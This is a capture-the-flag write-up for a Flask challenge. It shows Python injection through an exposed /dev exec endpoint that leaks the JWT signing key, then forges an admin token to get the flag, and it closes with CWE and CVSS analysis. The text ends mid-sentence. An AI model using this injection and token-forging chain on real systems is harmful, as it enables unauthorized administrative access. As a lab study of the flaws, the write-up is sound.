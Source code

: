 # The Problem

> Our team enlisted the intern to make their new website! Their code passes SonarQ's tests, so, it must be secure...
> right?

# Enumeration

First, we enumerate directories on the ip.

![Enumeration result](./report/enumeration.png)

In the output, we can see notably a `/login` directory and a `/dev` directory.
This can indicate accounts in the system and a development environment left open in production.

# Exploitation

We follow the `/dev` directory, since it seems to be a remnant of the development environment.

![/dev page](report/dev.png)

Also noteworthy, there seems to be some python code, so, there is a code injection point!

Trying to find out the environment, we pass `dir()` to the `/exec`'s `method` field.
This yields the following: `['_ep', 'endpoint', 'self']`

To find out more, let's see what properties does `self` have with `dir(self)`: `['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'load_controllers', 'load_routes', 'routes', 'tk_factory']`

We see a `tk_factory`, which must be the provider of tokens. Let's see what are its properties with `dir(self.tk_factory)`: `['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'generate_token', 'key', 'token_verify']`

Here we seem to be able to manipulate and see all the logic!
Let's get the key that generates the tokens with `self.tk_factory.key`: `708a313dbad5ed23442c63a47aef74444cf8cf1f55526ddb6d240008b7021847338fe56c6b0a259aae297367b98612eb84d7`.

Note that this value can change from session to session.

Now we need a token. For that, we go to the `/register` page in order to register an account.

![/register page](report/register.png)

And we get the token in the url: `https://127.0.0.1:5000/flagpage?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJhZG1pbiI6ZmFsc2V9.zXVLUvyoTUX7zjdz3Zf9-Nij4CnKKa6s04bItkJQMjI`

In order to decrypt it, we can run the following code:

```py
import jwt

secret_key = "<key>"
token = "<token>"

decoded_token = jwt.decode(token, secret_key, algorithms=["HS256"])
print(decoded_token)
```

which returns the following json:

```json
{
  "username": "a", 
  "admin": false
}
```

Now, we can try setting `admin` to `true`. To do this, we run the following code:

```py
encoded_token = jwt.encode(
    {
        'username': 'a',
        'admin': True
    },
    key=secret_key,
    algorithm='HS256'
)

print(encoded_token)
```

which returns `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJhZG1pbiI6dHJ1ZX0.DLqzMzKiXw7XO0pysKdi73ktVulsWZByivQlUuWDNEo`

By replacing this for the token in the url we get the flag!

![Flag](report/flag.png)

# CWEs and CVSS

Mainly this challenge was designed arround [CWE-1057: Data Access Operations Outside of Expected Data Manager Component](https://cwe.mitre.org/data/definitions/1057.html).
The issue here could have been solved if the token management code was designed to better encapsulate it's security key.

There are other issues that, when chained with this one, create an exploitable system.
If the application was not running in development mode ([CWE-489: Active Debug Code](https://cwe.mitre.org/data/definitions/489.html)) 
the remote code execution would not be possible.
If the token system was more secure ([CWE-1294: Insecure Security Identifier Mechanism](https://cwe.mitre.org/data/definitions/1294.html))
the remote code execution to gather token generation information would be at least harder.

The proposed CVSSv3 score is 10, from [the calculator by NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator)

Although scope does not change in this code, if there would be any sort of admin area (as would be expected in production code),
scope would change.
This reasoning is also aplied to the Scope metric.

Integrity and availability are compromised in the `/dev` endpoint.

Although the person deploying this code has to run it in development mode, we decided not to count that as user interaction,
given it is not actually an exploited user and for Flask running in development mode is the default option.

Availability is assumed to be 

![CVSS calculation](report/cvss.png)